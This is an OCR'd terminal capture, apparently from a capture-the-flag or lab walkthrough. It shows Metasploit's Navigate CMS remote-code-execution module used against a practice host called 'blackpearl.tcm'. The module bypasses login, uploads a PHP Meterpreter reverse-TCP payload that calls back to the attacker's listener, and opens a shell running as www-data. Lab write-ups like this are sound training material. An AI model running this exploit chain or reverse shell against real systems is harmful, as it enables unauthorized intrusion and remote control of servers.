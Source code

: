 ```jsx
┌──(root㉿wahaj)-[/home/wahaj/Downloads]
└─# msfconsole
                                                  

 ______________________________________________________________________________
|                                                                              |
|                          3Kom SuperHack II Logon                             |
|______________________________________________________________________________|
|                                                                              |
|                                                                              |
|                                                                              |
|                 User Name:          [   security    ]                        |
|                                                                              |
|                 Password:           [               ]                        |
|                                                                              |
|                                                                              |
|                                                                              |
|                                   [ OK ]                                     |
|______________________________________________________________________________|
|                                                                              |
|                                                       https://metasploit.com |
|______________________________________________________________________________|

       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE 
true                                                                                                                                                          
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/http/navigate_cms_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > set rhosts 172.16.2.131
rhosts => 172.16.2.131
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm'
[-] Parse error: Unmatched quote: "set vhost blackpearl.tcm'"
msf6 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm
vhost => blackpearl.tcm
msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 192.168.1.107:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.1.107
[*] Meterpreter session 1 opened (192.168.1.107:4444 -> 192.168.1.107:52447) at 2023-07-30 16:03:26 +0500

meterpreter > shell
Process 926 created.
Channel 2 created.
whoami
www-data
sudo -l
/bin/sh: 2: sudo: not found
```
